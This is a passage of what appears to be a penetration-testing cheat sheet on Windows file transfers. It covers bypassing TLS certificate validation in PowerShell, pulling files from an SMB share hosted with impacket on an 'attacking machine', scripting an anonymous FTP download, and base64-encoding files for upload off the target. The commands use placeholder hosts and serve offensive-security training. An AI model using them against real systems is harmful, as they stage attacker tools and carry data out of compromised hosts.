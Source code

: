 if there is a SSL/TLS error you can bypass it by issuing 

	[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

<br>

#### SMB Downloads

utilizing a python script (such as impacket's smbserver.py) it is possible to host a simple ftp server on the attacking machine to retrieve files from a windows target

##### on attacking machine:

	python3 smbserver.py shareName sharePath

##### on windows host:
	copy-item \\[attacking-ip]\[shareName]\[file]


windows might block unauthenticated smb connections, in that case:

##### on attacking machine:

	 python3 smbserver.py -user [user] -password [password] shareName sharePath

##### on windows host:

	net use [drive-letter:] \\[attacking-ip]\[shareName] /user:'user' 'password'

###### to remove a mounted share:

	net use [drive-letter] /DELETE

<br>

#### FTP Downloads

**pyftpdlib** can be used to host a simple FTP server similar to http.server 

	pip3 install pyftpdlib

	python3 -m pyftpdlib

a web request can then be made using *Invoke-WebRequest*  with a ftp:// url or a ftp command file can be written on the windows host:

	echo open [ftp-server-ip] > ftpcommand.txt
	echo USER anonymous >> ftpcommand.txt
	echo binary >> ftpcommand.txt
	echo GET [file] [output-file]>> ftpcommand.txt
	echo bye >> ftpcommand.txt
	ftp -v -n -s:ftpcommand.txt

### Upload Operations

the same base64 techniques used for download allow the upload of files [depending on their file size]

##### on windows host:
	[Convert]::ToBase64String((Get-Content -Path [file-path] -Encoding byte))
